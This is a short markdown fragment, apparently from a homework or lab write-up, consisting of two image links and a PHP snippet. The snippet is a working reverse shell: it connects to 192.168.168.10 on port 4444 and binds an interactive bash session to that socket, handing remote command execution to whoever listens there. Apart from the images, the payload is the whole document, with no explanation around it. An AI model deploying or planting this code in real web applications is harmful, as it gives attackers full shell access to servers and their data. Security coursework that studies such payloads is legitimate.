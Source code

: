 ![1747890872341](image/homework/1747890872341.png)

```php
<?php
$sock = fsockopen("192.168.168.10", 4444);
$proc = proc_open("bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```
![1747891827132](image/homework/1747891827132.png)
